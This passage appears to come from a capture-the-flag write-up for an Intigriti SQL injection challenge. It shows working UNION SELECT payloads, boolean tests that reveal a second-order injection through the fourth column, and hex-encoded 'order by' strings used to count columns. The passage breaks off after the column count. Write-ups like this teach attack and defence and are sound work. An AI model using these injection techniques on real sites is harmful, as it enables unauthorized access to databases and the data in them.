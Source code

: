 <p>• Nothing helped sadly :(</p>

<p>• Then i came across this lovely rendition,the author name which was never rendered in any of the reflection(output by our sqlinjection query) magically came up when i tried some fuzzing with integers( ah i completely forgot to notice this ;} the author name) </p>

<img src="https://raw.githubusercontent.com/kabilan1290/kabilan1290.github.io/master/assets/img/kanom.png">

<br>

<img src="https://raw.githubusercontent.com/kabilan1290/kabilan1290.github.io/master/assets/img/iruku.png">

<p>• Then i founded that the 4th column is responsible for this behaviour.</p>

```
Query : https://challenge-0722.intigriti.io/challenge/challenge.php?month=3 union select null,null,null,1,null -- -

Output : Anton

Query : https://challenge-0722.intigriti.io/challenge/challenge.php?month=3 union select null,null,null,2,null -- -

Ouput : Jake
```

<p>• Something was really fishy as the output was generated by the IDs 1,2 respecitively belongs to the Anton and jake</p>

<p>• Maybe the sql execution is passed down to a separate sql query?</p>

<p>• i tried with logical statement and yessssss it is :0</p>

```
Query Used :  

https://challenge-0722.intigriti.io/challenge/challenge.php?month=3 union select null,null,null,1 AND 1=1,null -- -

Output reflected 

https://challenge-0722.intigriti.io/challenge/challenge.php?month=3 union select null,null,null,1 AND 1=0,null -- -

Output not reflected

```

<p>• The i went the classical approach to find the columns and reflective field.</p>

<p>• I was able to find there were three columns (assumed it is user table).</p>

```
Query used:
https://challenge-0722.intigriti.io/challenge/challenge.php?month=3 union select null,null,null,0x31206f7264657220627920312c322c33,null -- -

1 order by 1,2,3  :  0x31206f7264657220627920312c322c33

Output renders

https://challenge-0722.intigriti.io/challenge/challenge.php?month=3 union select null,null,null,0x31206f7264657220627920312c322c332c34,null -- -

1 order by 1,2,3,4  :  0x31206f7264657220627920312c322c332c34

No output
```
